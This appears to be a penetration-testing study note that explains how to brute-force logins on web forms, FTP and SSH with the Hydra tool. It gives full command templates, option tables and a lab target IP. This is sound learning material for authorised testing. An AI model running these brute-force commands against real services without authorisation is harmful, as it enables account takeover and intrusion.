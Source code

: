 # Hydra
Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

# HTTP-POST-Forms
We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
<br>

### sudo hydra <username> <wordlist> 10.10.68.161 http-post-form "<path>:<login_credentials>:<invalid_response>"
### example => hydra -l <username> -P <wordlist> 10.10.68.161 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

<table class="table table-bordered">
<thead>
<tr>
<th>Option</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>-l</code></td>
<td>the username for (web form) login</td>
</tr>
<tr>
<td><code>-P</code></td>
<td>the password list to use</td>
</tr>
<tr>
<td><code>http-post-form</code></td>
<td>the type of the form is POST</td>
</tr>
<tr>
<td><code>&lt;path&gt;</code></td>
<td>the login page URL, for example, <code>login.php</code></td>
</tr>
<tr>
<td><code>&lt;login_credentials&gt;</code></td>
<td>the username and password used to log in, for example,
<code>username=^USER^&amp;password=^PASS^</code></td>
</tr>
<tr>
<td><code>&lt;invalid_response&gt;</code></td>
<td>part of the response when the login fails</td>
</tr>
<tr>
<td><code>-V</code></td>
<td>verbose output for every attempt</td>
</tr>
</tbody>
</table>

# FTP
he options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:

### hydra -l user -P passlist.txt ftp://<IP_ADDRESS>

# SSH

### hydra -l <username> -P <full path to pass> <IP_ADDRESS> -t 4 ssh
<table class="table table-bordered">
<thead>
<tr>
<th>Option</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>-l</code></td>
<td>specifies the (SSH) username for login</td>
</tr>
<tr>
<td><code>-P</code></td>
<td>indicates a list of passwords</td>
</tr>
<tr>
<td><code>-t</code></td>
<td>sets the number of threads to spawn</td>
</tr>
</tbody>
</table>

### we can simply ssh after extracting the password